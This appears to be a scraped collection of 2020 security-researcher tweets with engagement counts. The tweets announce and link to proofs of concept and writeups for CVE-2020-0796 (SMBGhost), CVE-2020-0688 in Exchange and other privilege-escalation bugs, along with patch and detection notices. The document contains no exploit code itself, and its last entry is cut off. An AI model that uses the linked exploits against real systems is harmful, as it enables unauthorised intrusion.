<td></td>
<td></td>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>29</code></td>
<td>Favorites: <code>35</code></td>
</tr></table>

---
# _trou_
**https://twitter.com/_trou_/status/1246482199148482560 _at Sat Apr 04 16:58:09 +0000 2020_**
<blockquote>
I've now exploited ASUS AsIO2.sys LPE. Blog: https://t.co/IgHVHsYcTb. Exploit: https://t.co/lEd67tAvbw based on @rwfpl MSI exploit. Enjoy !
</blockquote>

* https://syscall.eu/blog/2020/04/04/asus_gio_exploit/
* https://github.com/trou/asus-asio2-lpe-exploit

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>77</code></td>
<td>Favorites: <code>151</code></td>
</tr></table>

---
# standa_t
**https://twitter.com/standa_t/status/1246480268527108096 _at Sat Apr 04 16:50:29 +0000 2020_**
<blockquote>
You can write and test your type-1 hypervisor on Hyper-V. I wrote up step-by-step instructions for this with MiniVisor.
https://t.co/PVvnnsWVRu

Big thanks to @Intel80x86 for sharing tricks about Hyper-V compatibility! https://t.co/e9TE9P6PeK
</blockquote>

* https://github.com/tandasat/MiniVisorPkg/blob/master/Docs/Testing_UEFI_on_Hyper-V.md

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>110</code></td>
<td>Favorites: <code>297</code></td>
</tr></table>

---
# HonkHase
**https://twitter.com/HonkHase/status/1245361148603572224 _at Wed Apr 01 14:43:30 +0000 2020_**
<blockquote>
#Windows SMBv3 #LPE #Exploit for CVE-2020-0796 available!

Look at the video and understand the risk please...

https://t.co/eHTZTdZ6jv
</blockquote>

* https://github.com/danigargu/CVE-2020-0796

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>1</code></td>
<td>Favorites: <code>3</code></td>
</tr></table>

---
# 404death
**https://twitter.com/404death/status/1245211859117936641 _at Wed Apr 01 04:50:16 +0000 2020_**
<blockquote>
Windows 10 LPE via Dll Search Loading 

https://t.co/3JgHLcPTYv

#magnifier0day
</blockquote>

* https://github.com/sailay1996/magnifier0day

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>33</code></td>
<td>Favorites: <code>100</code></td>
</tr></table>

---
# ZecOps
**https://twitter.com/ZecOps/status/1245113954906468352 _at Tue Mar 31 22:21:14 +0000 2020_**
<blockquote>
Exploiting #SMBGhost (CVE-2020-0796) for a Local Privilege Escalation: Writeup + POC via @ZecOps Research Blog https://t.co/49fTuHwqPC
</blockquote>

* https://blog.zecops.com/vulnerabilities/exploiting-smbghost-cve-2020-0796-for-a-local-privilege-escalation-writeup-and-poc/

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>97</code></td>
<td>Favorites: <code>172</code></td>
</tr></table>

---
# bluefrostsec
**https://twitter.com/bluefrostsec/status/1245050305038954498 _at Tue Mar 31 18:08:19 +0000 2020_**
<blockquote>
Want to know how to escape the Chrome sandbox exploiting Android's Binder with CVE-2020-0041? Check out our latest post by @esanfelix and @jgrusko 
https://t.co/RRf0cbyruk
</blockquote>

* https://labs.bluefrostsecurity.de/blog/2020/03/31/cve-2020-0041-part-1-sandbox-escape/

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>112</code></td>
<td>Favorites: <code>182</code></td>
</tr></table>

---
# basto_digital
**https://twitter.com/basto_digital/status/1244944774534172672 _at Tue Mar 31 11:08:58 +0000 2020_**
<blockquote>
PoCs for CVE-2020-0796 (#SMBGhost) have been publicly disclosed allowing local privilege escalation via an SMBv3 #exploit.

GitHub:
https://t.co/QeKWLxqM4f
https://t.co/r83NZXKkJK

This should be fun.

#Windows10 https://t.co/dLtg0LWOfq
</blockquote>

* https://github.com/ZecOps/CVE-2020-0796-POC
* https://github.com/danigargu/CVE-2020-0796

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>1</code></td>
<td>Favorites: <code>5</code></td>
</tr></table>

---
# hjy79425575
**https://twitter.com/hjy79425575/status/1244934280674865152 _at Tue Mar 31 10:27:16 +0000 2020_**
<blockquote>
I just read CVE-2020-0796 SMB vulnerability LPE exploit and here is my quick analysis.
https://t.co/xvEip0RYD6 https://t.co/9F3NQNRVXU
</blockquote>

* https://github.com/danigargu/CVE-2020-0796

<table><tr>
<td></td>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>90</code></td>
<td>Favorites: <code>214</code></td>
</tr></table>

---
# securitycrusade
**https://twitter.com/securitycrusade/status/1244848779523735552 _at Tue Mar 31 04:47:31 +0000 2020_**
<blockquote>
Top story: GitHub - ZecOps/CVE-2020-0796-LPE-POC: CVE-2020-0796 Local Privilege Escalation POC https://t.co/A3Q2j7KG6s, see more https://t.co/Er2nkJzdg0
</blockquote>

* https://github.com/ZecOps/CVE-2020-0796-LPE-POC
* http://tweetedtimes.com/v/8853?s=tnp

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>0</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---
# Pentest101MX
**https://twitter.com/Pentest101MX/status/1244832981367369729 _at Tue Mar 31 03:44:45 +0000 2020_**
<blockquote>
#ITSecurity #ITSec GitHub - danigargu/CVE-2020-0796: CVE-2020-0796 - Windows SMBv3 LPE exploit #SMBGhost https://t.co/PPcdzMoloc, see more https://t.co/rTq0w5CNKm
</blockquote>

* https://github.com/danigargu/CVE-2020-0796
* http://tweetedtimes.com/Pentest101MX?s=tnp

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>4</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---
# JohnTroony
**https://twitter.com/JohnTroony/status/1244647552726765569 _at Mon Mar 30 15:27:55 +0000 2020_**
<blockquote>
A local privilege escalation exploit for the recent SMB v3 Compression vulnerability (CVE-2020-0796) is public at https://t.co/r1xkFGnbDr
</blockquote>

* https://github.com/danigargu/CVE-2020-0796

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>0</code></td>
<td>Favorites: <code>2</code></td>
</tr></table>

---
# jtuyen
**https://twitter.com/jtuyen/status/1244634394339442688 _at Mon Mar 30 14:35:38 +0000 2020_**
<blockquote>
PoC LPE using SMBv3 ghost bug (CVE-2020-0796) https://t.co/EMeBYMxgqr
</blockquote>

* https://github.com/danigargu/CVE-2020-0796

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>0</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---
# TheHackersNews
**https://twitter.com/TheHackersNews/status/1244633317304971266 _at Mon Mar 30 14:31:21 +0000 2020_**
<blockquote>
PoC exploits have been released for achieving local privilege escalation on #Windows10 leveraging recently discovered wormable SMBv3 RCE flaw.

CVE-2020-0796
#SMBGhost

PoCs:
https://t.co/6UcXlUGZ40
https://t.co/7VjHnuST2S

Patch / News:
https://t.co/LNwM4dSZ0G https://t.co/hz4V8ESPMv
</blockquote>

* https://github.com/danigargu/CVE-2020-0796
* https://github.com/ZecOps/CVE-2020-0796-POC
* https://thehackernews.com/2020/03/patch-wormable-smb-vulnerability.html

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>8</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>198</code></td>
<td>Favorites: <code>328</code></td>
</tr></table>

---
# _r_netsec
**https://twitter.com/_r_netsec/status/1244617401519329281 _at Mon Mar 30 13:28:07 +0000 2020_**
<blockquote>
Released a public exploit (Local Privilege Escalation) for SMBv3 bug (CVE-2020-0796) https://t.co/EiAUS3cqGl
</blockquote>

* https://github.com/danigargu/CVE-2020-0796

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>71</code></td>
<td>Favorites: <code>150</code></td>
</tr></table>

---
# VP_helena
**https://twitter.com/VP_helena/status/1244616516886089728 _at Mon Mar 30 13:24:36 +0000 2020_**
<blockquote>
Windows SMBv3 LPE Exploit (CVE-2020-0796)
https://t.co/e39rlXq7oi
</blockquote>

* https://github.com/danigargu/CVE-2020-0796

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>0</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---
# danigargu
**https://twitter.com/danigargu/status/1244608389289848832 _at Mon Mar 30 12:52:18 +0000 2020_**
<blockquote>
During this quarantine I've been researching with my colleague Manu (@dialluvioso_) the latest SMBv3 bug (CVE-2020-0796), we've achieved a local privilege escalation.
We're releasing the exploit code at https://t.co/lKsy4dBkpp https://t.co/YJuQk7YiUU
</blockquote>

* https://github.com/danigargu/CVE-2020-0796

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>13</code></td>
<td>Replies: <code>24</code></td>
<td>Retweets: <code>597</code></td>
<td>Favorites: <code>1068</code></td>
</tr></table>

---
# ZecOps
**https://twitter.com/ZecOps/status/1244336079022374912 _at Sun Mar 29 18:50:14 +0000 2020_**
<blockquote>
Did you know that #SMBGhost / CVE-2020-0796 can be used for a Local Privilege Escalation?
We'll post the details + POC in the next few days #PatchNow #ComingSoon
and in the meantime: https://t.co/78gmQU78Ae https://t.co/WHDmaXo1Ar
</blockquote>

* https://blog.zecops.com/vulnerabilities/vulnerability-reproduction-cve-2020-0796-poc/

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>7</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>342</code></td>
<td>Favorites: <code>710</code></td>
</tr></table>

---
# Anastasis_King
**https://twitter.com/Anastasis_King/status/1244207749082341376 _at Sun Mar 29 10:20:18 +0000 2020_**
<blockquote>
CVE-2020-9768 : AppleJPEGDriverUserClient mach port use-after-free/type-confusion via race condition 

A PoC for has been published CVE-2020-9768 (arbitrary code execution with system privileges flaw in iPhone/iPad)

https://t.co/qf1wb5wZqV
</blockquote>

* https://gist.github.com/0x36/3c9e77058eac7069616b72f0088d8b6d

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>1</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---
# thezdi
**https://twitter.com/thezdi/status/1243194544017072128 _at Thu Mar 26 15:14:11 +0000 2020_**
<blockquote>
The Trend Micro Research Team takes a detailed look at CVE-2020-0729 - an RCE bug in #Windows through LNK files. Read the thorough analysis at https://t.co/y7SPhoPQvM
</blockquote>

* https://bit.ly/3bsf4PZ

<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>143</code></td>
<td>Favorites: <code>247</code></td>
</tr></table>

---
# ihack4falafel
**https://twitter.com/ihack4falafel/status/1242835791287590913 _at Wed Mar 25 15:28:38 +0000 2020_**
<blockquote>
[Blog] Docker Desktop Local Privilege Escalation (CVE-2020-10665) https://t.co/rJqn6f0b6E cc @decoder_it @FuzzySec @tiraniddo
</blockquote>

* https://tinyurl.com/vdzyr7t

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>94</code></td>
<td>Favorites: <code>147</code></td>
</tr></table>

---
# Securelist
**https://twitter.com/Securelist/status/1241348929150730240 _at Sat Mar 21 13:00:22 +0000 2020_**
<blockquote>
The #Windows #0day exploit, CVE-2019-1458 was used in Operation #WizardOpium attack.

Learn more here ⇒ https://t.co/9WwUOSnp1F https://t.co/veveecXPUB
</blockquote>

* http://kas.pr/hs4a

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>26</code></td>
<td>Favorites: <code>60</code></td>
</tr></table>

---
# buffaloverflow
**https://twitter.com/buffaloverflow/status/1241072602946383873 _at Fri Mar 20 18:42:21 +0000 2020_**
<blockquote>
Had fun today writing a .NET exploit for @itm4n 's CVE-2020-0787 BITS LPE and UsoLoader technique.

Check out his blog posts and research if you haven't already. They are all brilliant 👏🙏

https://t.co/Of7DLLWZMl
https://t.co/PRJOpXMNWV https://t.co/J2GhIT8xy3
</blockquote>

* https://itm4n.github.io/cve-2020-0787-windows-bits-eop/
* https://itm4n.github.io/usodllloader-part2/

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>84</code></td>
<td>Favorites: <code>192</code></td>
</tr></table>

---
# _hg8_
**https://twitter.com/_hg8_/status/1239498425810501633 _at Mon Mar 16 10:27:08 +0000 2020_**
<blockquote>
"CVE-2020-0796 Pre-Auth POC"

Tl;Dr: Only DoS by BSOD so far. No RCE proof-of-concept out yet.

https://t.co/zGiZHjOGEw https://t.co/OkeuJpg2Br
</blockquote>

* https://github.com/ZecOps/CVE-2020-0796-POC

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>3</code></td>
<td>Favorites: <code>7</code></td>
</tr></table>

---
# blackorbird
**https://twitter.com/blackorbird/status/1238282567675043841 _at Fri Mar 13 01:55:44 +0000 2020_**
<blockquote>
#SMBGhost Technical analysis of Microsoft SMBv3 client / server remote code execution vulnerability (CVE-2020-0796)
report:
https://t.co/TQi9siQGhH
translate:
https://t.co/g2eRVSuV74
ref:
https://t.co/hD93owRitk
</blockquote>

* http://blogs.360.cn/post/CVE-2020-0796.html
* https://translate.google.com/translate?hl=&sl=zh-CN&tl=en&u=http%3A%2F%2Fblogs.360.cn%2Fpost%2FCVE-2020-0796.html
* https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-smb2/1d435f21-9a21-4f4c-828e-624a176cf2a0

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>23</code></td>
<td>Favorites: <code>33</code></td>
</tr></table>

---
# UK_Daniel_Card
**https://twitter.com/UK_Daniel_Card/status/1238152468414029825 _at Thu Mar 12 17:18:46 +0000 2020_**
<blockquote>
Microsoft has released an out of band security update for the SMB v3 RCE Vulenrability (CVE-2020-0796): KB4551762 

This vulnerability can be used in a simmilar way to MSBLASTER/WANNACRY so it's really important you update your sys…https://t.co/Y9wlR8PtYm https://t.co/EajF3TeIw9
</blockquote>

* https://lnkd.in/d3s-CEH
* https://lnkd.in/dKKJWWU

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>19</code></td>
<td>Favorites: <code>33</code></td>
</tr></table>

---
# BleepinComputer
**https://twitter.com/BleepinComputer/status/1238128405910097921 _at Thu Mar 12 15:43:09 +0000 2020_**
<blockquote>
BREAKING: Microsoft releases the out-of-band KB4551762 Windows 10 security update to patch the CVE-2020-0796 SMBv3 RCE vulnerability
https://t.co/M1A1RKezX4
</blockquote>

* https://www.bleepingcomputer.com/news/security/microsoft-releases-kb4551762-security-update-for-smbv3-vulnerability/

<table><tr>
<td>Quotes: <code>11</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>137</code></td>
<td>Favorites: <code>174</code></td>
</tr></table>

---
# UID_
**https://twitter.com/UID_/status/1237459414317137920 _at Tue Mar 10 19:24:49 +0000 2020_**
<blockquote>
Seems like Cisco's Talos accidentily published details about CVE-2020-0796. A RCE exploit in SMBv3. This type of exploit is comparable to EternalBlue. The impact of such an exploit is what we experienced during WannaCry and NotPetya. https://t.co/jh7HKRDWDr
</blockquote>

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>45</code></td>
<td>Favorites: <code>52</code></td>
</tr></table>

---
# Easi123
**https://twitter.com/Easi123/status/1237435605975543808 _at Tue Mar 10 17:50:13 +0000 2020_**
<blockquote>
CVE-2020-0796 is a remote code execution vulnerability in Microsoft Server Message Block 3.0 (SMBv3).  Users are encouraged to disable SMBv3 compression and block TCP port 445 on firewalls and client computers.
</blockquote>

<table><tr>
<td>Quotes: <code>15</code></td>
<td>Replies: <code>10</code></td>
<td>Retweets: <code>167</code></td>
<td>Favorites: <code>291</code></td>
</tr></table>

---
# dnlongen
**https://twitter.com/dnlongen/status/1237433447309852674 _at Tue Mar 10 17:41:38 +0000 2020_**
<blockquote>
Give your Windows sysadmins a virtual hug. Looks like they may be busy for a while... Potentially wormable RCE in SMBv3 CVE-2020-0796 (which incidentally, I cannot find any MSFT disclosure for yet). Let's see what WannaCry and NotPetya taught us... https://t.co/gqhJx5h2zV https://t.co/cGlCH6QVN7
</blockquote>

* https://blog.talosintelligence.com/2020/03/microsoft-patch-tuesday-march-2020.html

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>13</code></td>
<td>Replies: <code>8</code></td>
<td>Retweets: <code>136</code></td>
<td>Favorites: <code>177</code></td>
</tr></table>

---
# standa_t
**https://twitter.com/standa_t/status/1237370620435988480 _at Tue Mar 10 13:31:59 +0000 2020_**
<blockquote>
If you are interested in developing hypervisors as UEFI modules, MiniVisor is for you: https://t.co/WPW6JwdM7G

Also @brucedang and I are offering a 5-day class on the development of hypervisor, including UEFI version, in October. See details at https://t.co/bHnxAjux2m
</blockquote>

* https://github.com/tandasat/MiniVisorPkg
* https://gracefulbits.regfox.com/hypervisor-development-for-security-analysis

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>99</code></td>
<td>Favorites: <code>271</code></td>
</tr></table>

---
# NSAGov
**https://twitter.com/NSAGov/status/1236099750610563074 _at Sat Mar 07 01:22:00 +0000 2020_**
<blockquote>
A remote code execution #vulnerability (CVE-2020-0688) exists in Microsoft Exchange Server. If unpatched, an attacker with email credentials can execute commands on your server. 

Mitigation Guidance available at: https://t.co/MMlBo8BsB0
</blockquote>

* https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2020-0688

<table><tr>
<td>Quotes: <code>42</code></td>
<td>Replies: <code>38</code></td>
<td>Retweets: <code>738</code></td>
<td>Favorites: <code>866</code></td>
</tr></table>

---
# ddouhine
**https://twitter.com/ddouhine/status/1235597524838334464 _at Thu Mar 05 16:06:20 +0000 2020_**
<blockquote>
Woooh that was quick ! 0day + 1week = MSF exploit

Google Chrome 80 JSCreate side-effect type confusion exploit (CVE-2020-6418) in #Metasploit !

Vulnerability found by @_clem1 
Exploit by @_2can and @sherl0ck__
Module by @timwr

Patch released last week

https://t.co/EOFM2n4MWM https://t.co/PAF8Syz9YV
</blockquote>

* https://github.com/rapid7/metasploit-framework/pull/13008

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>5</code></td>
<td>Favorites: <code>7</code></td>
</tr></table>

---
# JAX_MASTERS
**https://twitter.com/JAX_MASTERS/status/1234191634390233089 _at Sun Mar 01 18:59:50 +0000 2020_**
<blockquote>
Full Disclosure: LPE and RCE in OpenSMTPD's default install (CVE-2020-8794) https://t.co/TCtX7wHlWY
</blockquote>

* https://seclists.org/fulldisclosure/2020/Feb/32

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>0</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---
# irsdl
**https://twitter.com/irsdl/status/1233073061194280961 _at Thu Feb 27 16:55:01 +0000 2020_**
<blockquote>
Exploit https://t.co/TtG2QoVWES so easy 😱😰 this looks really really bad
</blockquote>

* https://github.com/Ridter/cve-2020-0688/blob/master/cve-2020-0688.py

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>62</code></td>
<td>Favorites: <code>167</code></td>
</tr></table>

---
# NVISO_Labs
**https://twitter.com/NVISO_Labs/status/1232997983655993346 _at Thu Feb 27 11:56:41 +0000 2020_**
<blockquote>
This morning, PoC code to abuse CVE-2020-0688 (Microsoft Exchange Validation Key Remote Code Execution Vulnerability) was released. In case you haven't done so, it's time to patch, patch, patch! https://t.co/DvqHexydpq

Our sigma rule to detect this: https://t.co/fXalEL0F6Z
</blockquote>

* https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2020-0688
* https://github.com/NVISO-BE/sigma-public/blob/web_exchange_cve_2020_0688_exploit/rules/web/web_exchange_cve_2020_0688_exploit.yml

<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>140</code></td>
<td>Favorites: <code>225</code></td>
</tr></table>

---
# GossiTheDog
**https://twitter.com/GossiTheDog/status/1232430811439403014 _at Tue Feb 25 22:22:57 +0000 2020_**
<blockquote>
That was quick, since 2 hours ago seeing likely mass scanning for CVE-2020-0688 (Microsoft Exchange 2007+ RCE vulnerability). https://t.co/Kp3zOi5AOA
</blockquote>

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>17</code></td>
<td>Favorites: <code>45</code></td>
</tr></table>

---
# anttitikkanen
**https://twitter.com/anttitikkanen/status/1232070933063577600 _at Mon Feb 24 22:32:55 +0000 2020_**
<blockquote>
Latest Chrome update patches CVE-2020-6418, 0day found in the wild by @_clem1 : https://t.co/H2j5PXO8gV https://t.co/K2GoOJCPgf
</blockquote>

* https://chromereleases.googleblog.com/2020/02/stable-channel-update-for-desktop_24.html?m=1

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>76</code></td>
<td>Favorites: <code>157</code></td>
</tr></table>

---
# _argp
**https://twitter.com/_argp/status/1230018688725716993 _at Wed Feb 19 06:38:02 +0000 2020_**
<blockquote>
'The bug was "fixed" by Apple in 2012 as CVE-2012-3727 but fixed the bug in the wrong function (dns4 one) so this is still an 0day at the moment.'

;)

https://t.co/f0eHDQDoDr
</blockquote>

* https://github.com/JakeBlair420/Spice

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>83</code></td>
<td>Favorites: <code>266</code></td>
</tr></table>

---
# campuscodi
**https://twitter.com/campuscodi/status/1229818692789309442 _at Tue Feb 18 17:23:19 +0000 2020_**
<blockquote>
